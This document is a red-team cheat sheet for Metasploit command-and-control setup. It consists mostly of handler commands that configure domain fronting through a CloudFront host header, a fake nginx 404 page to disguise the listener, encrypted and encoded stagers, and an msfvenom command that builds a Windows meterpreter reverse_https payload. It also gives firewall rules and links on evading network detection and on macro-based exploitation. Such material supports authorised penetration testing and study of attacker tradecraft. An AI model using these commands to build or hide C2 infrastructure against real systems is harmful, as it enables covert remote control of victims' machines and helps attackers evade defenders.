 # Metasploit

Search Tag: #red-team-infrastructure #metasploit

## 01 - Setup

### 1.1 - Shell Handler

#### 1.1.1 - Domain Fronting

```
msf exploit(multi/handler) > set HttpHostHeader afsa0dfna0sdfhq3.cloudfront.net

msf exploit(multi/handler) > set HttpUserAgent <User Agent>

msf exploit(multi/handler) > set HttpServerName nginx/1.21.2

msf exploit(multi/handler) > set HttpUnknownRequestResponse <html><head><title>404 Not Found</title></head><body><p><h1 align="center">404 Not Found</h1></p><br><p><hr></p><p align="center">nginx/1.21.2</p></body></html>
```

#### 1.1.2 - The URI length for the stager (at least 5 bytes)

```
msf exploit(multi/handler) > set StagerURILength 420

msf exploit(multi/handler) > set HandlerSSLCert /path/to/cert.pem

msf exploit(multi/handler) > set SSLVersion TLS1.2

msf exploit(multi/handler) > set EnableStageEncoding true

msf exploit(multi/handler) > set StageEncoder x64/zutto_dekiru
```

`$ msfvenom -p windows/x64/meterpreter/reverse_https StagerURILength=420 HandlerSSLCert=/path/to/cert.pem`

* Optional payload advanced settings

```
msf exploit(multi/handler) > set HttpHostHeader

msf exploit(multi/handler) > set HttpCookie
```

### 1.2 - Firewall Rules

```
# mkdir /etc/iptables
# iptables -I INPUT 1 -p tcp -s 0.0.0.0/0 --dport 5432 -j DROP
# iptables -I INPUT 1 -p tcp -s 127.0.0.1 --dport 5432 -j ACCEPT
# iptables-save > /etc/iptables/rules.v4
```

- A script to autorun after reboot. Run this as root (without `sudo`)

```bash
cat << EOF > /etc/rc.firewall-rules
#!/bin/sh -e
#
# rc.firewall-rules
#
# This script is executed at the end of each multiuser runlevel.
# Make sure that the script will "exit 0" on success or any other
# value on error.
#
# In order to enable or disable this script just change the execution
# bits.
#
# By default this script does nothing.

sudo iptables-restore < /etc/iptables/rules.v4

exit 0
EOF
```

`$ sudo chmod +x /etc/rc.firewall-rules`

---
## References

- [Anti-Forensics Evading Network Detection with Metasploit](https://sapphirex00.medium.com/c2-antiforensics-evading-network-detection-with-metasploit-b400342f20b1)

- [Quickpost: Metasploit User Agent Strings](https://blog.didierstevens.com/2015/03/16/quickpost-metasploit-user-agent-strings/)

- [Catching Meterpreter Callbacks](https://github.com/bats3c/shad0w/wiki/Catching-Meterpreter-Callbacks)

- [Windows Exploit with Word Macro](https://zer0day.tistory.com/303)

- [Conti TTP using Atomic Red Team and Detection Lab C2 infrastructure Hunting](https://michaelkoczwara.medium.com/conti-ttps-using-atomic-red-team-and-detection-lab-c2-infrastructure-hunting-16d159fe0ed8)

- https://labs.jumpsec.com/obfuscating-c2-during-a-red-team-engagement/

- [Chapter 11 Visualizing Metasploit (Use case related about MSGRPC which is the msfrpcd when connecting metasploit remotely)](https://goois.net/chapter-11-visualizing-metasploit-mastering-metasploit-fourth-edition.html)